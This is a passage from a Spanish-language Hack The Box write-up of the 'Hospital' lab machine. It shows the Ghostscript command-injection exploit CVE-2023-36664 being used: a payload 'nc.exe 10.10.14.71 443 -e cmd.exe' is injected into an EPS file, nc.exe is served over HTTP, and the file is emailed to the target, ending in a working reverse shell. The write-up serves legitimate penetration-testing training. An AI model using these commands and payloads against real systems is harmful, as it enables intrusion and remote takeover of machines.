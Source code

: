 <img src="/assets/hackthebox/img/machines/medium/hospital/14.png">
</p>

- Una vez enviamos el mensaje nos llega la solicitud que descargo el `nc.exe`.

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) ✗ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.241 - - [11/May/2024 18:36:30] "GET /nc.exe HTTP/1.1" 200 -
```

- Ahora nos vamos a enviar una `reverse shell`.

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) ✗ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) ✗ python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.71 443 -e cmd.exe" --filename file.eps
[+] Payload successfully injected into file.eps.
```

- Y de igual manera enviamos por correo al mismo destinatario el `file.eps`.

- Nos llega la shell.

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) ✗ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.10.11.241] 6171
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>whoami
whoami
hospital\drbrown

C:\Users\drbrown.HOSPITAL\Documents>
```
